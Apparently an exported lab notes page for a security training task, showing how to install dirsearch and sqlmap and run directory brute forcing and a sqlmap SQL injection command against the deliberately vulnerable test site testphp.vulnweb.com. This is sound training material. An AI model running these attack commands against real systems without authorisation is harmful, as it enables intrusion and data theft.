 ```yaml
---
type: Page
title: Task - 1
description: null
icon: null
createdAt: '2025-06-27T09:33:17.129Z'
creationDate: 2025-06-27 15:33
modificationDate: 2025-06-27 16:47
tags: []
coverImage: null
---
```


## STEP 1: Advance Linux Commands:

[image](https://app.capacities.io/dbfac0d5-fc54-497f-b05f-90b6c4a00c27/ade0d1dd-cc57-4180-8c17-244754eae2fd)

[image](https://app.capacities.io/dbfac0d5-fc54-497f-b05f-90b6c4a00c27/f46f6090-666b-48a4-98ce-538de901dd10)

## STEP 2: Installing GitHub Tools

### dirsearch

```bash
git clone https://github.com/maurosoria/dirsearch.git
cd dirsearch
python3 dirsearch.py -u http://testphp.vulnweb.com
```

[image](https://app.capacities.io/dbfac0d5-fc54-497f-b05f-90b6c4a00c27/9001dabe-07b3-445e-9e36-c3963e8e566a)

### SQLMap

```bash
git clone https://github.com/sqlmapproject/sqlmap.git
cd sqlmap
python3 sqlmap.py --version
```

[image](https://app.capacities.io/dbfac0d5-fc54-497f-b05f-90b6c4a00c27/7bc87b79-61de-45f1-a7bb-73be26bc148e)

## **STEP 3: Launch Attacks on** **testphp.vulnweb.com**

### **Directory Brute Forcing via dirsearch**

```bash
python3 dirsearch.py -u http://testphp.vulnweb.com
```

[image](https://app.capacities.io/dbfac0d5-fc54-497f-b05f-90b6c4a00c27/a10bd21b-e1b7-4597-96fe-0c8f7f0c821b)

### SQL Injection via sqlmap

```bash
python3 sqlmap.py -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs
```

[image](https://app.capacities.io/dbfac0d5-fc54-497f-b05f-90b6c4a00c27/a49bc4dd-fa64-4790-a5ca-8d58f82b8cb3)
